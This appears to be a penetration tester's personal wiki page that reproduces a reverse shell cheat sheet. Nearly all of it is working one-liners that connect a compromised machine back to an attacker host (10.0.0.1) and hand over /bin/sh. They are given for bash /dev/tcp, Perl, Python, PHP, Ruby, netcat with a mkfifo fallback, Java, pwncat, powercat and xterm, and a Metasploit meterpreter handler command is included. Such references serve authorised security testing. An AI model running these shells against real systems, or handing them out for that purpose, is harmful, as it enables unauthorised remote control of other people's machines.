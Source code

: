 ```yaml
---
category: Uncategorized
tags: []
---
```


## Reverse shell cheat sheet

- [[#Bash]]
- [[#PERL]]
- [[#Python]]
- [[#PHP]]
- [[#Ruby]]
- [[#Netcat]]
- [[#Java]]
- [[#xterm]]
- [[#Pwncat]]
- [[#msfconsole]]
- [[#Powercat]]


### [[TechLexicon/Penetration Testing/Reference/P3nT3sT/Shell/Bash]]

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

````bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
````

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

````perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

````python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

````php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
````

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

````ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

````nc
nc -e /bin/sh 10.0.0.1 1234
````

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

````java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

[Untested submission from anonymous reader]

### [[Pwncat]]

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```



### msfconsole
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.10.14.10; set lport 9009; exploit"
```

### [[Powercat]]
**Listener + client**

```powershell
Basic Client:
    powercat -c 10.1.1.1 -p 443
Basic Listener:
    powercat -l -p 8000

```



### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip